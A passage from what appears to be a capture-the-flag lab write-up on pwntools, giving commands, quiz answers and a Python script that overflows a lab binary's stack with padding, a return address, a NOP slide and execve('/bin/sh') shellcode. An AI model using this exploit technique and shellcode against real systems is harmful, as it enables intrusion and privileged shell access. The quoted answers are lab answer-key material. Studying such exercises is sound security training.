 ```bash
python pwn_shellcraft.py | ./intro2pwnFinal
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 10-28-47.png>)

{% hint style="success" %}
`Trace/breakpoint trap`
{% endhint %}

#### Run the command "shellcraft i386.linux.sh -f a", which will print our shellcode in assembly format. The first line will tell you that it is running a function from the Unix standard library, with the parameters of "(path='/bin///sh', argv=\['sh'], envp=0)." What function is it using?

```bash
shellcraft i386.linux.sh -f a
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 10-34-05.png>)

{% hint style="success" %}
`execve`
{% endhint %}

#### Run whoami once you have the shell. Who are you?

```bash
shellcraft i386.linux.execve '/bin///sh' "['sh', '-p']" -f s
```

{% tabs %}
{% tab title="pwn_shellcraft.py" %}
```python
from pwn import *

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd500 + 256)
nop_slide = '\x90' * 1000
shellcode = 'jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
print padding + eip + nop_slide + shellcode
```
{% endtab %}
